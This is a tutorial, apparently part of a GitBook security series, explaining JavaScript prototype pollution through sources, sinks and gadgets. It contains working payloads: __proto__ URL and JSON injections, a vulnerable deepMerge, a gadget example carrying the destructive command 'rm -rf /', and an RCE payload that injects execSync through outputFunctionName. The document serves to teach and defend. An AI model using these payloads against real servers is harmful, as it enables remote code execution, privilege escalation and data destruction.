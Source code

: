 ```yaml
---
description: Part 2 of Prototype pollution
---
```


# Prototype Pollution - Part 2

Previously we went through how objects and prototype works in JavaScript and a high level overview on how an attacker can pollute the prototype of object in JavaScript.

## Brief Recap

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption><p>A typical Prototype Pollution attack type Credits: PortSwigger</p></figcaption></figure>

In order for prototype pollution vulnerability to work, the user controlled properties **must** be assigned to the object's **prototype** instead of the object itself. Hence polluting the prototype of the object. This can be done through functions like a recursive merge function.&#x20;

As I mentioned in Part 1, to successfully exploit prototype pollution, you need the following key components

* A source - Any **user input** that allows you to **poison** the prototypes with arbitrary properties.
* A sink - A JavaScript function or DOM element that **execute** arbitrary code.
* An exploitable gadget - A property that is passed into a sink without **proper filtering**.

I will be diving more in depth into these three key components

## Prototype pollution source

As mentioned, a prototype pollution source is any user input that enables a user to add arbitrary properties to prototype objects. These are some of the most common type of sources:

* URL query via a GET request&#x20;
* JSON-based input via a POST request
* Web messages

I will be going through URL query and JSON-based input.

### Prototype pollution via URL

One can poison the prototype via URL in such a manner:

```http
https://greenhat.com/?__proto__['evilProperty']=payload
```

We might think that the URL parser may interpret `__proto__` as an arbitrary string. But as we mentioned before, if we merge these keys and values into an existing object as properties.

{% code title="What we think might happen when we do a recursive merge" overflow="wrap" %}
```json
{
    currentProperty1: 'test',
    currentProperty2: 'test2',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
{% endcode %}

{% code title="What actually happen" %}
```javascript
targetObject.__proto__.evilProperty = 'payload';
```
{% endcode %}

So, how did this happen? The JavaScript engine actually treat `__proto__` as a getter for the prototype. As a result, the `evilProperty` is assigned to the prototype rather than the target object itself. Now all objects that use the same prototype of the `targetObject` will inherit the `evilProperty`.&#x20;

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`.&#x20;

{% code title="A typical malicious JSON " %}
```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
{% endcode %}

Using `JSON.parse()` method, if we convert the JSON object into a JavaScript object, the resulting object will have a property with the key `__proto__`. If this object is merged into an existing object without proper key sanitization, it will lead to prototype pollution.

## Prototype pollution sinks

A sink refers to a point in the code where untrusted input is processed or executed. This makes it a potential risk if it is not properly handled. In our case for a web application, it will usually be a JavaScript function or DOM element that allows for arbitrary JavaScript or system commands. This obviously depends on the type of web application and the dependency libraries that are in use.&#x20;

```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];  // 🚨 Prototype Pollution Sink
        }
    }
}

let maliciousPayload = JSON.parse('{ "__proto__": { "isAdmin": true } }');

deepMerge({}, maliciousPayload);

console.log({}.isAdmin); // ✅ True - Exploited!
```

## Prototype pollution gadgets

This is probably the most important part of prototype pollution as a gadget allows the vulnerability to become a viable exploit. Gadgets are usually existing function or a feature in the application that can be manipulated to trigger arbitrary execution or escalate privileges after polluting the prototype.

{% code title="A example of exec method being use as a gadget for prototype pollution" %}
```javascript
const { exec } = require("child_process");

let userInput = JSON.parse('{ "__proto__": { "shell": "rm -rf /" } }');

// Polluting the prototype
Object.assign({}, userInput);

exec(userInput.shell, (error, stdout, stderr) => {
    console.log(stdout);
});

```
{% endcode %}

A property can be used as a gadget if it is:

* Used by the application in an unsafe way such as passing it to a sink without proper filtering.
* The object must inherit a malicious version of the property added to the prototype by the attacker.

## A example of prototype pollution

Now for an specific example, I have a vulnerable function called `compile` and I control the `outputFunctionName` property of it.

{% code title="An example of compile function Credits: Offsec" %}
```javascript
569    compile: function () {
...
574      var opts = this.opts;
...
584      if (!this.source) {
585        this.generateSource();
586        prepended +=
587          '  var __output = "";\n' +
588          '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
589        if (opts.outputFunctionName) {
590          prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
591        }
...
609      }
```
{% endcode %}

Based on line 590, to make the payload work, we need to do the following:

```javascript
 var x = 1; WHATEVER_JSCODE_WE_WANT ; y = __append;'
```

We just need to add a `x=1; + our code; + y` to the payload to execute this part properly.

If we were to have a JSON input for a API call on a `/sample` endpoint, we can do the following to ensure that our code executes:

<pre class="language-json" data-title="A sample JSON input payload"><code class="lang-json"><strong>}
</strong><strong>    "sampleProperty": "",
</strong><strong>    "__proto__":
</strong>    {
        "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
    }
}
</code></pre>

This web application will process our payload to execute the system `whoami` command on the server hence allowing us to get RCE via prototype pollution.&#x20;

## **Author**

* Frost :snowflake:

## **References**

* [https://portswigger.net/web-security/prototype-pollution](https://portswigger.net/web-security/prototype-pollution)
* Offsec Advanced Web Attack and Exploitation
